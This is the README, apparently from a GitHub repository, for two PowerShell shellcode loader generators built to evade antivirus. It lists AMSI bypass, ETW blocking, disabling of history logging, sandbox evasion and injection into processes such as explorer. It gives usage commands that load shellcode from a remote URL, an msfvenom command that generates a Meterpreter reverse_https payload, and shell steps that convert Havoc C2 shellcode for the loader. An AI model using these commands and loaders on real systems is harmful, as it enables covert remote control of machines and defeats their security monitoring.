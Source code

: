 --------------------------------------
### Invoke-PoSH-ShellCodeLoader1.ps1
--------------------------------------
'Invoke-PoSH-ShellCodeLoader1' is a simple shellcode loader generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellcode loader script that will inject the shellcode into the current process's virtual address space.  

> Features
  - Shellcode injection into the memory of the current process (PowerShell)
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution

> Usage
1. Example with a shellcode file stored locally
```
  - Import-Module ./Invoke-PoSH-ShellCodeLoader1.ps1
  - Invoke-PoSH-ShellCodeLoader1 -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellcodeLoader.ps1
  --- or ---
  - Invoke-PoSH-ShellCodeLoader1 -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellcodeLoader.ps1 -Sandbox
```
2. Example with a shellcode file stored on a remote web server
```
  - Import-Module ./Invoke-PoSH-ShellCodeLoader1.ps1
  - Invoke-PoSH-ShellCodeLoader1 -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellcodeLoader.ps1  
  --- or ---
  - Invoke-PoSH-ShellCodeLoader1 -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellcodeLoader.ps1 -Sandbox
```
> Input 
  - Shellcode format (e.g. [Byte[]] $buf = 0xfc,0x48,0x83,...)
  - Metasploit C2 Framework  
  ```msfvenom -p windows/x64/meterpreter/reverse_https EXITFUNC=thread LHOST=X.X.X.X LPORT=443 -a x64 -f ps1 -o shellcode```
  
> License
  - GNU General Public License v3.0

--------------------------------------
### Invoke-PoSH-ShellCodeLoader2.ps1
--------------------------------------
'Invoke-PoSH-ShellCodeLoader2' is a simple shellcode loader generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellcode loader script that will inject the shellcode into a target process's virtual address space.  

> Features
  - Shellcode injection into the memory of a target process
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging

> Usage
```
  - Import-Module ./Invoke-PoSH-ShellCodeLoader2.ps1
  - Invoke-PoSH-ShellCodeLoader2 -FileUrl https://URL/shellcode -TargetProcess explorer -OutFile C:\path\Packed-ShellcodeLoader.ps1
    --- or ---
  - Invoke-PoSH-ShellCodeLoader2 -FilePath C:\path\shellcode -TargetProcess explorer -OutFile C:\path\Packed-ShellcodeLoader.ps1
```

> Input 
  - Shellcode format (e.g. [Byte[]] $buf = 0xfc,0x48,0x83,...)
  - Metasploit C2 Framework  
  ```msfvenom -p windows/x64/meterpreter/reverse_https EXITFUNC=thread LHOST=X.X.X.X LPORT=443 -a x64 -f ps1 -o shellcode```
  - Havoc C2 Framework  
    1. Generate a new HAVOC payload with the format "Windows Shellcode" (Arch: x64 / Indirect Syscall: Enabled / Sleep Technique: WaitForSIngleObjectEx)  
    2. To convert the Havoc shellcode to the "PS1" format you need to run these commands:  
     ```$ xxd -p HavocShellCode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > HavocShellcode1```  
     ```$ sed '$ s/.$//' HavocShellcode1 > HavocShellcode2```  
     ```$ sed -i '1s/^/[Byte[]] $buf = /' HavocShellcode2```  

> License
  - GNU General Public License v3.0
